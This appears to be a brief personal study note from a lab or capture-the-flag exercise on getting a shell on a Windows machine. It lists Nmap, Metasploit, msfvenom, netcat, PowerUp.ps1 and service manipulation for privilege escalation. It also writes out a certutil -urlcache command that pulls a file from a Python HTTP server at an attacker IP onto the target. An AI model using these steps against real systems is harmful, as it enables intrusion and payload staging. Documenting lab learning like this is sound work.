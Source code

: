 in here i learnt how to get the shell of windows machine
i used NMAP
- metasploit
- msfvenom
- exploit-db
- using of IP address in the browser then viewing the source code for that [to get some information which i was not doing]
- NETCAT
- running of powershell executable files [PowerUp.ps1]
- service stopping and starting in windows machine
- checking the function which are running and hacking through it
  
  ----> python3 -m http.server 1234   - for linux
  
  ----> certutil -urlcache -f http://<IP>:1234/file_name file_name[how it should be saved]   - in windows to download the file from linux or any server 
